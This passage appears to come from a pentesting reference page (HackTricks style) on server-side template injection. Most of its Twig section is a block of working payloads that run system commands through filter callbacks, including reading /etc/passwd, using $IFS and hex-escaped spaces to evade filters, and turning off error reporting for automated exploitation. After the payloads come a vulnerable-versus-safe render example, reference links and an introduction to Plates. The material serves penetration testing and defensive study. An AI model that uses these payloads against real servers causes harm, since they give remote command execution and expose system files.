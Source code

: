 ```
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
{{['id',""]|sort('system')}}

#Hide warnings and errors for automatic exploitation
{{["error_reporting", "0"]|sort("ini_set")}}
```

**Twig - Template format**



```
$output = $twig > render (
  'Dear' . $_GET['custom_greeting'],
  array("first_name" => $user.first_name)
);

$output = $twig > render (
  "Dear {first_name}",
  array("first_name" => $user.first_name)
);
```

**More information**

- In Twig and Twig (Sandboxed) section of [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
    
- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig)
    

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#plates-php)

Plates (PHP)

Plates is a templating engine native to PHP, drawing inspiration from Twig. However, unlike Twig, which introduces a new syntax, Plates leverages native PHP code in templates, making it intuitive for PHP developers.

Controller:



```
// Create new Plates instance
$templates = new League\Plates\Engine('/path/to/templates');

// Render a template
echo $templates->render('profile', ['name' => 'Jonathan']);
```
